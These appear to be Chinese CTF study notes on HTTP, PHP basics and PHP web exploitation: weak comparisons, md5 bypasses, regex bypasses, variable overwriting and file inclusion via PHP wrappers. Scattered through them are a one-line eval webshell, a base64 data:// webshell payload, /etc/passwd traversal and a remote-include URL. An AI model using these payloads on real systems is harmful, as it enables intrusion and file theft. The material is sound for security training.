



[TOC]

介绍一下awdp

## HTTP请求

超文本传输协议

[HTTP 概述 - HTTP | MDN (mozilla.org)](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Overview)

[HTTP协议详解（HyperText Transfer Protocol 超文本传输协议）访问控制(CORS) （OPTIONS预请求preflight request）浏览器同源策略_http://_Dontla的博客-CSDN博客](https://blog.csdn.net/Dontla/article/details/121189955)

**HTTP** 是一种用作获取诸如 HTML 文档这类资源的[协议](https://developer.mozilla.org/zh-CN/docs/Glossary/Protocol)。它是 Web 上进行任何数据交换的基础，同时，也是一种客户端—服务器（client-server）协议，也就是说，请求是由接受方——通常是浏览器——发起的。一个完整网页文档是由获取到的不同文档组件——像是文本、布局描述、图片、视频、脚本等——重新构建出来的。

### HTTP请求方法

- GET 获取资源

  用来请求访问已被 URL 识别的资源。指定的资源经服务器端解析后返回响应内容。

- POST 传输实体主体

  用来传输实体的主体，也就是发送数据。虽然用 GET 方法也可以传输实体的主体，但一般不用 GET 方法进行传输，而是用 POST 方法。虽说POST 的功能与 GET 很相似，但 POST 的主要目的并不是获取响应的主体内容。

### 状态码

- **1xx Informational (信息性状态码)**: 请求正在处理中，服务器需要进一步的操作来完成请求。
  - 100 Continue：服务器已经接收到请求的初始部分，客户端应该继续发送其余部分。
- **2xx Successful (成功状态码)**: 请求已经被成功接收、理解、并处理。
  - 200 OK：请求已成功，服务器返回请求的数据。
  - 201 Created：请求已成功，服务器创建了一个新的资源。通常用于回应PUT
  - 204 No Content：请求已成功，但服务器没有返回任何数据，如网络连通性检测
- **3xx Redirection (重定向状态码)**: 客户端需要执行附加操作以完成请求。
  - 301 Moved Permanently：请求的资源已永久移动到新位置。
  - 302 Found：请求的资源已临时移动到新位置。
  - 303 See Other：响应中包含一个对其他资源的引用。
- **4xx Client Errors (客户端错误状态码)**: 请求包含错误或无法被服务器理解。
  - 400 Bad Request：请求无效，服务器无法理解。
  - 401 Unauthorized：请求需要用户身份验证。
  - 403 Forbidden：服务器拒绝请求，没有权限访问。
  - 404 Not Found：请求的资源不存在。
  - 405 Method Not Allowed：请求方法不允许使用。
- **5xx Server Errors (服务器错误状态码)**: 服务器在处理请求时发生错误。
  - 500 Internal Server Error：服务器内部错误。
  - 502 Bad Gateway：服务器作为网关或代理，从上游服务器接收到无效响应。
  - 503 Service Unavailable：服务器当前无法处理请求（维护、过载等）。

### URL


### HTTP请求头

- `User-Agent`：包括所使用的操作系统、CPU、浏览器类型等
- `Referer`： 指示当前请求是从哪个页面链接过来的标头
- `X-Forwarded-For`：用于指示客户端的真实 IP 地址，其中包含了从最开始的客户端到当前代理服务器之间的所有 IP 地址
  `X-Forwarded-For: 192.168.1.1, 10.0.0.1, 10.0.0.2`
- `Content-Type`：，用于指示消息体中的数据类型
- `Cookie`：用于在客户端和服务器之间传递状态信息。它通常用于在客户端与服务器之间保持会话状态
  `Cookie` 头的格式通常是一个或多个 `key=value` 对的集合，用分号和空格分隔。例如：`Cookie: name=name; password=a`


### HTTP响应头

当服务器向客户端发送响应时，可以在响应头中通过 `Set-Cookie` 字段来设置 `Cookie`。

`Location` 是 HTTP 响应头的一个字段，用于指示客户端应该重定向到的新位置，`Location` 头通常与 `3xx Redirection` 类型的状态码一起使用，比如 `301 Moved Permanently`（永久重定向）和 `302 Found`（临时重定向）。不同的重定向类型会对搜索引擎和浏览器的行为产生不同的影响。

### URL编码

在 URL 中，某些字符具有特殊含义，例如问号 `?`、等号 `=`、斜杠 `/` 等。如果 URL 中包含这些字符，可能会引起解析问题，这时就要用URL编码将他们进行编码。

常见的 URL 编码字符集是使用百分号（%）后跟两位十六进制数表示的 ASCII 码。例如，空格字符在 URL 编码中通常表示为 `%20`。

题目：[cnss-ezhttp](http://124.221.34.13:50005/Index)

[扣雷瓦kafの小小站]([AWCTF](https://awctf.com/challenges#扣雷瓦kafの小小站-205))

[[极客大挑战 2019]Http](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]Http)

[秒懂HTTP基本认证(Basic Authentication) - 知乎 (zhihu.com)](https://zhuanlan.zhihu.com/p/64584734)

## PHP基础

[PHP 教程 | 菜鸟教程 (runoob.com)](https://www.runoob.com/php/php-tutorial.html)


PHP文件的后缀通常为php。
PHP代码块通常以<?php开始，以?>结束，HTML代码通常包含在<html></html>之间。
每条语句后要加分号

.php文件里放html是可以执行的


`<script language="php">@eval($_POST['cmd']);</script>`

### PHP变量

与代数类似php可以将某个值赋予某个变量。变量的格式为：
以$开始，后面是变量名，如：$x
变量必须以字母或下划线开头
变量名必须可以包含大小写字母，数字，以及下划线，且区分大小写。
使用类似$x=1;语句来赋值变量
PHP是一门弱类型语言，因此不必转换变量的数据类型

### PHP作用域

PHP变量作用域局部和全局作用域
在所有函数外部定义的变量，拥有全局作用域。除了函数外，全局变量可以被脚本中的任何部分访问，要在一个函数中访问一个全局变量，需要使用global关键字。

当一个函数结束时，函数内的局部变量会被删除，如果希望不被删除可以使用static关键字。

```php
<?php
function change1(){
    global $a;
    $a = 2;
    print("change1 : a = ".$a."\n");
    
}
function change2(){
    $a = 2;
    print("change2 : a = ".$a."\n");
    
}
function change3(){
    static $c = 1;
    $c++;
    print("change3 : c = ".$c."\n");
    $d = 1;
    $d++;
    print("change3 : d = ".$d."\n");
    
}
$a = 1;
print("a = ".$a."\n");
change2();
print("a = ".$a."\n");
change1();
print("a = ".$a."\n");

echo "-----------------\n";
change3();
change3();
?>
```

### PHP超全局变量

超全局变量是在全部作用域中始终可用的内置变量。

注：php4.1.0之后启用

```
$_POST		接受post请求传的参，以数组方式储存
$_GET		接受get请求传的参，以数组方式储存
$_COOKIE	以数组方式储存cookie里的值
$_REQUEST	储存上面三个值，根据版本和设置不同而改变（request_order）
$_SESSION 	用于设置session
$_SERVER 	返回一些信息
$_FILES		获取通过 POST 方法上传文件的相关信息
$GLOBALS	包含了全部变量的全局组合数组。变量的名字就是数组的键。

```

```html
<html>
<head>
<meta charset="utf-8">
<title>afterwave</title>
</head>
<body>
 post
<form action="" method="post">
<input type="text" name="post1">
<input type="text" name="post2">
<input type="submit" value="提交">
</form>
<br>
get
<form action="" method="get">
<input type="text" name="get1">
<input type="text" name="get2">
<input type="submit" value="提交">
</form>
 
</body>
</html>
<?php
echo "post:"."<br>";
print_r($_POST);
echo "<br>"."get:"."<br>";
print_r($_GET);
echo "<br>"."request:"."<br>";
print_r($_REQUEST);
?>
```

[变量1 - Bugku CTF](https://ctf.bugku.com/challenges/detail/id/76.html)

### PHP的输出

- print/print_r

  直接使用print 或使用print()来输出。且返回值为1。

- echo

  使用echo 来输出，无返回值。若要同时输出多个值，使用.连接。

- var_dump

  使用var_dump来输出时，会将该变量的类型进行输出

### PHP变量数据类型

[PHP 数据类型 | 菜鸟教程 (runoob.com)](https://www.runoob.com/php/php-datatypes.html)

四种标量类型

- boolean——布尔型

  TRUE  FALSE

- integer——整型

- float——浮点型，也称作double

- string——字符串

三种复合类型

- array——数组
- object——对象
- callable——可调用

两种特殊类型

- resource——资源
- NULL——无类型

### PHP运算符


比较运算符


逻辑运算符运算符


比较运算符


逻辑运算符


数组运算符


位运算符


### PHP流程控制

#### 条件语句

If，else

- if当条件成立时，执行代码
- If else当条件成立时执行if后的代码，当条件不成立时执行else后的代码

switch

#### 循环语句

while，do while，for，foreach

- 当while后面的条件成立时，执行，每执行一次，判断一次是否成立。

- do while 先执行一次，当条件成立时再会执行。

- for循环，首先初始化一个变量值，用于设置一个计数器。

  然后设置循环执行的限制条件。如果为 TRUE，则循环继续。如果为 FALSE，则循环结束。

  最后设置每次循环变量发生的变化，变量主要用于递增计数器。

- foreach循环用于数组遍历

  ```php
  <?php
  $array = [0, 1, 2];
  foreach ($array as $val){
      echo "值是：" . $val ;
      echo "<br/>";
  }
  foreach ($array as $key => $value) {
      echo "键名是：" . $key . "值是：" . $value;
      echo "<br/>";
  }
  ?>
  ```

  

## PHP特性

[CTF中的PHP特性_ctf中php特性_Skn1fe的博客-CSDN博客](https://blog.csdn.net/qq_45086218/article/details/114113971)

### 弱类型

[CTF-WEB：PHP 弱类型 - 乌漆WhiteMoon - 博客园 (cnblogs.com)](https://www.cnblogs.com/linfangnan/p/13411103.html#例题bugku-矛盾)

**强类型**：在强类型语言中，变量的数据类型是严格定义的，不能隐式地转换为其他类型。在进行操作时，需要明确地进行类型转换。

**弱类型**：在弱类型语言中，变量的数据类型并不是严格定义的，可以在一定程度上隐式地进行类型转换。这意味着变量的数据类型可能会在某些情况下自动发生变化。

PHP是一种弱类型语言，在编写PHP代码时，我们不需要显式地声明变量的数据类型，而是PHP会根据上下文自动进行类型转换。这在某些情况下可能会带来便利，但也可能导致一些意外。让我们看一些例子来更好地理解PHP弱类型性质。

```php
<?php
var_dump(true==2);//true
var_dump(true==0);//false
var_dump(''==0);//true
var_dump(0==false);//true
var_dump(intval(false));//int(0)
var_dump('123'==123);//字符串转换为数字类型,true
var_dump('abc'==0);//true
var_dump('123a'==123);//true
var_dump(intval('123a'));//int(123)
var_dump('a123'==123);//false
var_dump(intval('a123'));//int(0)
var_dump('0x01'==1);//0x01为16进制，true
var_dump(intval(0x01));//int(1)
var_dump(intval(0x11));//int(17)
var_dump('0e123456789'=='0e987654321');//true
var_dump(intval(0e12345678))//int(0)
var_dump('1e3'==1000);//true
var_dump([0]=='');//false
var_dump([0]==['']);//true

$var1 = 5;       // $var1 是一个整数类型
$var2 = "10";    // $var2 是一个字符串类型

echo $var1 + $var2;       // 输出 15，$var2 被转换为整数再相加
echo $var1 . $var2;		 //输出510，$var1 被转换为字符串再拼接
```

#### md5、sha1

**强类型比较：**

```php
if ($_POST['a'] != $_POST['b'])
if (md5($_POST['a']) === md5($_POST['b']))
echo $flag;
```

利用数组绕过，md5函数加密数组时会返回NULL，利用两个数组加密都是NULL相等进行绕过

```php
<?php
var_dump(md5(1));
var_dump(md5([]));
var_dump(md5([123,456]) === md5([789,987]));
/*
string(32) "c4ca4238a0b923820dcc509a6f75849b"
NULL
bool(true)
*/
```

**弱类型比较：**

```php
if(md5($_GET['a'])==md5($_GET['b']))
echo $flag;
```

只要两个数的md5加密后的值以0e开头就可以绕过，因为php在进行弱类型比较（即==)时,会现转换字符串的类型，在进行比较，而在比较是因为两个数都是以0e开头会被认为是科学计数法，0e后面加任何数在科学计数法中都是0，所以两数相等

```
0e开头的md5和原值：
QNKCDZO
0e830400451993494058024219903391
240610708
0e462097431906509019562988736854
s878926199a
0e545993274517709034328855841020
s155964671a
0e342768416822451524974117254469
s214587387a
0e848240448830537924465865611904
s214587387a
0e848240448830537924465865611904
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s1885207154a
0e509367213418206700842008763514
s1502113478a
0e861580163291561247404381396064
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s155964671a
0e342768416822451524974117254469
s1184209335a
0e072485820392773389523109082030
s1665632922a
0e731198061491163073197128363787
s1502113478a
0e861580163291561247404381396064
s1836677006a
0e481036490867661113260034900752
s1091221200a
0e940624217856561557816327384675
s155964671a
0e342768416822451524974117254469
s1502113478a
0e861580163291561247404381396064
s155964671a
0e342768416822451524974117254469
s1665632922a
0e731198061491163073197128363787
s155964671a
0e342768416822451524974117254469
s1091221200a
0e940624217856561557816327384675
s1836677006a
0e481036490867661113260034900752
s1885207154a
0e509367213418206700842008763514
s532378020a
0e220463095855511507588041205815
s878926199a
0e545993274517709034328855841020
s1091221200a
0e940624217856561557816327384675
s214587387a
0e848240448830537924465865611904
s1502113478a
0e861580163291561247404381396064
s1091221200a
0e940624217856561557816327384675
s1665632922a
0e731198061491163073197128363787
s1885207154a
0e509367213418206700842008763514
s1836677006a
0e481036490867661113260034900752
s1665632922a
0e731198061491163073197128363787
s878926199a
0e545993274517709034328855841020
```

```
双md5结果仍是0e开头字符串
CbDLytmyGm2xQyaLNhWn
md5(CbDLytmyGm2xQyaLNhWn) => 0ec20b7c66cafbcc7d8e8481f0653d18
md5(md5(CbDLytmyGm2xQyaLNhWn)) => 0e3a5f2a80db371d4610b8f940d296af
770hQgrBOjrcqftrlaZk
md5(770hQgrBOjrcqftrlaZk) => 0e689b4f703bdc753be7e27b45cb3625
md5(md5(770hQgrBOjrcqftrlaZk)) => 0e2756da68ef740fd8f5a5c26cc45064
7r4lGXCH2Ksu2JNT3BYM
md5(7r4lGXCH2Ksu2JNT3BYM) => 0e269ab12da27d79a6626d91f34ae849
md5(md5(7r4lGXCH2Ksu2JNT3BYM)) => 0e48d320b2a97ab295f5c4694759889f
```

**md5碰撞**

当不能传入数组时，就需要用两个值不一样但是md5加密之后的值一样的数值了

```
a=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2
&b=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
```

[各种绕过哟 - Bugku CTF](https://ctf.bugku.com/challenges/detail/id/101.html?page=2)

### preg_match()

`preg_match(pattern, subject [, matches]);`

- `pattern`：正则表达式模式，用于定义要匹配的模式。
- `subject`：要在其中进行匹配的字符串。
- `matches`：可选参数，用于存储匹配结果的数组。

用于执行正则表达式匹配的函数。`preg_match()`函数的主要作用是在给定的字符串中查找是否存在与正则表达式匹配的部分，并返回匹配的结果。返回一个整数值，表示匹配的次数（0或1）。如果匹配成功，则返回1，否则返回0。如果提供了`matches`参数，匹配的结果将存储在这个数组中。

**数组绕过：**

`preg_match()`只能处理字符串，当传入的subject是数组时会返回false

```php
$num = $_GET['num']
if(preg_match("/[0-9]/", $num)){
        die("no no no!");
    }
    if(intval($num)){
        echo $flag;
    }
}
```

**换行绕过：**

`.`不会匹配换行符，如

```bash
if (preg_match('/^.*(flag).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
}
```

只需要

```swift
$json="\nflag"
```

而在非多行模式下，`$`似乎会忽略在句尾的`%0a`

```bash
if (preg_match('/^flag$/', $_GET['a']) && $_GET['a'] !== 'flag') {
    echo $flag;
}
```

只需要传入

```perl
?a=flag%0a
```

>**模式修饰符**： 正则表达式通常以斜杠（`/`）开头和结束，还可以使用模式修饰符来改变匹配的行为。
>
>- `i`：不区分大小写的匹配。
>- `g`：全局匹配，查找所有匹配项。
>- `m`：多行匹配，处理多行文本。
>- `s`：使 `.` 匹配包括换行符在内的所有字符。

**PCRE回溯次数限制：**

[PHP利用PCRE回溯次数限制绕过某些安全限制 | 离别歌 (leavesongs.com)](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)

### intval()

`intval()`用于将变量转换为整数。它会尝试将给定的值转换为整数，并返回转换后的整数值

```
intval( $var, $base );
```

- `$var`：要转换为整数的变量，可以是数字字符串、浮点数、或其他值。
- `$base`：可选参数，指定进制（如 2、8、10、16 等）。默认为 10。

```php
<?php
echo intval(42);                      // 42
echo intval(4.2);                     // 4
echo intval('42');                    // 42
echo intval('+42');                   // 42
echo intval('-42');                   // -42
echo intval(042);                     // 34
echo intval('042');                   // 42
echo intval(1e10);                    // 1410065408
echo intval('1e10');                  // 1
echo intval(0x1A);                    // 26
echo intval(42000000);                // 42000000
echo intval(420000000000000000000);   // 0
echo intval('420000000000000000000'); // 2147483647
echo intval(42, 8);                   // 42
echo intval('42', 8);                 // 34
echo intval(array());                 // 0
echo intval(array('foo', 'bar'));     // 1
echo intval(false);                   // 0
echo intval(true);                    // 1
?>
```

[ezpad](http://124.221.34.13:50008/)

## PHP变量覆盖

```php
<?php
$hello = "world";
$b = "hello";
echo $$b; // echo $hello;

// 输出 world
```

### parse_str()

*`void parse_str(string $str[, array &$result])`*

把查询字符串解析到变量中

>如果未设置 array 参数，由该函数设置的变量将覆盖已存在的同名变量。
>
>php.ini 文件中的 magic_quotes_gpc 设置影响该函数的输出。如果已启用，那么在 parse_str() 解析之前，变量会被 addslashes() 转换。

https://www.runoob.com/php/func-string-parse-str.html

```php
<?php
$str = "first=value&arr[]=foo+bar&arr[]=baz";

// 推荐用法
parse_str($str, $output);
echo $output['first'];  // value
echo $output['arr'][0]; // foo bar
echo $output['arr'][1]; // baz

// 不建议这么用
parse_str($str);
echo $first;  // value
echo $arr[0]; // foo bar
echo $arr[1]; // baz
?> 
```

### extract ()

*`int extract (array &$array)`*

从数组中将变量导入到当前的符号表

该函数使用数组键名作为变量名，使用数组键值作为变量值。针对数组中的每个元素，将在当前符号表中创建对应的一个变量。

该函数返回成功设置的变量数目。


https://www.runoob.com/php/func-array-extract.html

```php
<?php

$size = "large";
$var_array = array("color" => "blue",
                   "size"  => "medium",
                   "shape" => "sphere");
extract($var_array, EXTR_PREFIX_SAME, "exist");

echo "$color, $size, $shape, $exist_size\n";

?> 
```

[*<u>awctf --- 变量覆盖？</u>*](https://awctf.com/challenges#%E5%8F%98%E9%87%8F%E8%A6%86%E7%9B%96%EF%BC%9F-56)

*<u>buuctf --- [[BJDCTF2020]Mark loves cat](https://buuoj.cn/challenges#[BJDCTF2020]Mark%20loves%20cat)</u>*

>　　　　$_SERVER["QUERY_STRING"]获取查询语句，实例中可知，获取的是?后面的值
>
>　　　　$_SERVER["REQUEST_URI"] 获取[http://www.xxx.com](http://www.xxx.com/)后面的值，包括/
>
>　　　　$_SERVER["SCRIPT_NAME"] 获取当前脚本的路径，如：index.php
>
>　　　　$_SERVER["PHP_SELF"] 当前正在执行脚本的文件名
>
>　　​		例子：http://www.xxx.com/index.php?p=222&q=biuuu
>
>　　　　结果：
>
>　　　　$_SERVER["QUERY_STRING"] = “p=222&q=u”
>
>　　　　$_SERVER["REQUEST_URI"] = “/index.php?p=222&q=u”
>
>　　　　$_SERVER["SCRIPT_NAME"] = “/index.php”
>
>　　　　$_SERVER["PHP_SELF"] = “/index.php”

## PHP文件包含

程序开发人员通常会把可重复使用的函数写到单个文件中，在使用某些函数时，直接调用此文件，而无须再次编写，这种调用文件的过程一般成为包含

**文件包含漏洞**

程序开发人员都希望代码更加灵活，所以通常会将被包含的文件设置为变量，用来进行动态调用，而文件包含漏洞产生的原因正是函数通过变量引入文件时，没有对传入的文件名进行合理的校验，从而操作了预想之外的文件，这样就导致以外的文件泄漏甚至恶意的代码注入

### **文件包含漏洞形成的前提条件：**

- `include()`等函数通过动态变量的方式引入需要包含的文件
- 用户能控制该动态变量


`http://localhost/index.php?page=/etc/passwd`

### **常见的文件包含函数**

 php: `include()`，`include_once()`，`require()`，`require_once()`，`fopen()`，`readfile()`...
Jsp/servlet: `java.io.File()`，`java.io.FileReader()`…
asp: i`nclude file`，`include virtual` ...

**文件包含是php的一种常见用法，主要由4个函数完成:**

` include()`：出错仅是警告，脚本继续执行

` require()`：出错则爆出致命错误，脚本立刻终止

` include_once()`：与include()相同，区别在于当被包含的代码存在时，则不重复包含

` require_once()`：与require()相同，区别在于当被包含的代码存在时，则不重复包含

### **漏洞条件**

本地文件包含漏洞，即可以包含本地文件的漏洞

远程文件包含漏洞，可以包含远程服务器文件的漏洞

条件：

- allow_url_fopen = On
- allow_url_include = On

### PHP伪协议

[SecMap - 非常见协议大礼包 - Tr0y's Blog](https://www.tr0y.wang/2021/05/17/SecMap-非常见协议大礼包/#发出-http-请求)

####  file://

读取本地文件，浏览器读取本地文件的时候，用的也是这个协议

####  data://

[文件包含漏洞之PHP伪协议中的data://的那些事~_Firebasky的博客-CSDN博客](https://blog.csdn.net/qq_46091464/article/details/106665358)

条件：

- `allow_url_include`: `On`
- PHP >= 5.2.0

格式：

`data:[<mediatype>][;base64],<data>`

- `<mediatype>`：可选，指定数据的媒体类型（MIME 类型），例如 `text/plain`、`image/jpeg` 等。这部分内容可以省略。
- `;base64`：可选，表示数据采用 Base64 编码。如果提供了 `;base64`，那么数据部分应该是经过 Base64 编码的。
- `<data>`：实际的数据内容。

```
?file=data://text/plain,<?php phpinfo();?>
?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2B
?file=data://text/plain;base64,PD9waHAgQGV2YWwoJF9QT1NUWydhJ10pOz8%2B
```

该协议类似于 php://input，区别在于 data:// 是直接获取后面跟着的内容。浏览器一般都支持这个协议，最常用的莫过于展示小图片了；在 CTF 中常用于执行任意 PHP 代码。

每个组件支持的会稍微有点区别，例如 `data:;,<?php phpinfo();?>` 在 Chrome 可以，但是在 PHP 不行

####  dict://

dict 协议是一个字典服务器协议，就是用来查单词的那种字典。字典服务器本来是为了让客户端使用过程中能够访问更多的字典源。

dict 协议的格式：`dict://`+`ip:端口`+`/` + `TCP/IP 数据`

与 gopher 相比，dict 携带的数据无法插入 `\r\n`（只能插入 `\\r\\n`），所以对于大部分组件来说，只能执行一条命令，所以如果一个组件可以一步一步操作（比如 redis），那么才可以利用，那么很明显，需要认证的 redis 是无法通过 dict 攻击的（即使你知道密码也没用），但是可以用来爆破密码。

####  php://

访问各个输入/输出流（I/O streams）。PHP 提供了一些杂项输入/输出（IO）流，允许访问 PHP 的输入输出流、标准输入输出和错误描述符；内存中、磁盘备份的临时文件流以及可以操作其他读取写入文件资源的过滤器。

属于 PHP 中的伪协议，受限于 php.ini 中的配置

#####  php://input

作用：访问请求的原始数据的只读流

条件：

- `allow_url_include`: `On`

- form 表单里的 enctype 不为 `multipart/form-data`（默认为 `application/x-www-form-urlencoded`）。体现在请求头里就是 Content-Type 不能为 `multipart/form-data`（文件上传）

  > Multipart 允许客户端在一次 HTTP 请求中发送多个部分（part）数据，每部分数据之间的类型可以不同。

PHP 在遇到这个伪协议的时候，会读取 POST 的数据当做内容。

比如 readfile、file_get_contents、include，都支持此伪协议。在 CTF 中常用于执行任意 PHP 代码。

#####  php://filter

作用：用于数据流打开时，对数据进行筛选、过滤。

条件：无

格式：`php://filter/[0]=[1]/resource=[2]`

其中：

- `[0]`: 可选 read/write
- `[1]`: 就是过滤器，可以设定一个或多个过滤器名称，以管道符（`|`）分隔即可。比如：`convert`、`string`，更多可参考官方文档：https://www.php.net/manual/zh/filters.php
- `[2]`: 必选的值，为要筛选过滤的数据流，通常是本地文件的路径，绝对路径和相对路径均可以使用。

示例：`php://filter/read=convert.base64-encode/resource=flag.php`

表示读取本地文件 flag.php，并进行 base64 编码。

在 CTF 中常用于读取 PHP 的源码。

```
php://filter 读取服务器中文件，并且在读的过程中会对数据进行编码

php://filter/read=convert.base64-encode/resource=要读的文件名

php://filter/convert.base64-encode/resource=要读的文件名

php://filter/string.rot13/resource=要读的文件名

file=php://filter/convert.iconv.utf-8.utf-7/resource=flag.php
iconv.从这个编码.转换到这个编码
```

>iconv ( string $in_charset , string $out_charset , string $str ) : 
>string将字符串 str 从 in_charset 转换编码到 out_charset。
>in_charset：输入的字符集。
>out_charset：输出的字符集。
>
>```php
><?php
>echo iconv("UCS-2LE","UCS-2BE",'<?php @eval($_POST[hack]);?>');
>?>
>//?<hp pe@av(l_$OPTSh[ca]k;)>?
>```

####  phar://

- 作用：属于 PHP 伪协议，phar（PHP Archive) 是 PHP 里类似于 JAR 的一种打包文件。
- 条件：
  - PHP >= 5.3.0

phar:// 的利用场景示例：

```php
<?php
  $files = $_GET['file'];
  include($files);
?>
```

对于这样的例子，先上传一个 zip 压缩包，里面是一个 txt 文件，内容是：`<?php phpinfo(); ?>`，在知道绝对路径（/www/upload/test.zip）之后，可以利用 phar:// 来执行这段代码，payload: `phar:///www/upload/test.zip/test.txt`

####  zip://

- 作用：属于 PHP 伪协议，用于访问 zip 压缩流

格式：`zip://[压缩文件绝对路径]#[压缩文件内的路径以及文件名]`

[*awctf-ez_php*](https://awctf.com/challenges#ez_php-242)

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
if($_GET['a'] != $_GET['b'] && md5($_GET['a']) == md5($_GET['b'])) {
	if($_POST['c'] != $_POST['d'] && md5($_POST['c']) === md5($_POST['d'])) {
		if(isset($_POST['guess']) && md5($_POST['guess']) ===
		'd3566d2680615a3978a5bf603656ef17') {
			if(isset($_GET['file'])&&
			!preg_match("/base|\.\./i",$_GET['file']) &&
			preg_match("/HECTF/",$_GET['file'])) {
				if($_GET['file']=='flag.php' || is_file($_GET['file']))
				echo "NoNo"; else {
					highlight_file($_GET['file']);
				}
			} else {
				echo "NoNoNo";
			}
		} else {
			echo "NoNoNoNo";
		}
	} else {
		echo "NoNoNoNoNo";
	}
} else {
	echo "NoNoNoNoNoNo";
}
```

### 漏洞利用

- 读取敏感信息
- 远程包含写Shell
- 本地包含配合文件上传 
- 使用PHP封装协议
- 包含Apache日志文件
- 截断包含

**可利用的本地文件：**

-   特殊的系统文件或应用文件
-   配合phpinfo包含临时文件
-   包含SESSION会话文件

[文件上传之结合phpinfo与本地文件包含利用](https://www.shuzhiduo.com/A/mo5kVWXKJw/)

[包含SESSION会话文件](https://blog.csdn.net/Z526209693/article/details/125431252)

**存在包含漏洞的页面特征：**

```
?page=a.php

?home=b.html

?file=content
```

经典测试方式

```
?file=../../../../etc/passwd

?page=file:///etc/passwd

?page=http://www.cnhongke.org/1.php
```

**远程包含写Shell**：

